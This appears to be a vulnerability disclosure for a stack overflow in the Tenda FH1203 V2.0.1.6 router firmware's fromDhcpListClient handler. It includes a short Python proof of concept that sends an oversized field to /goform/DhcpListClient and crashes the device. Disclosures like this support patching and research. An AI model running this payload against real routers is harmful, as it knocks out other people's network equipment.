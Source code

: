 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2495.html

## Affected version

FH1203 V2.0.1.6

## Vulnerability details

The Tenda FH1203 V2.0.1.6 firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

![image-20240320012458952](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012458952.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240320012419263.png)
